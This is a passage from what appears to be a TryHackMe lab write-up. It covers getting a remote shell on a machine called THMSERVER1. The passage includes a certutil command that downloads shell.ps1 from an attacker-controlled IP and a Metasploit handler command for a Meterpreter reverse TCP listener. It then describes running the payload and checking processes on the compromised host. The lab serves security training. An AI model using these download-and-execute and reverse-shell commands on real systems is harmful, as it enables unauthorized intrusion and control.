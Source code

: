		```
		certutil.exe -urlcache -split -f http://10.50.57.228:8000/shell.ps1
		```
	
		![task5-certutil](./images/task5-certutil.png)

	* Start a listener on attacker machine
	
		```
		sudo msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST exploitad; set LPORT 5555; exploit"
		```

		![task5-listener](./images/task5-listener.png)

	* Run `powershell` on THMSERVER1 and run payload file
	
		![task5-powershell](./images/task5-powershell.png)

	* Get the shell on attacker machine
	
		![task5-shell](./images/task5-shell.png)

	* Check running processes on the target machine
	
		```
		ps | grep "explorer"
		```
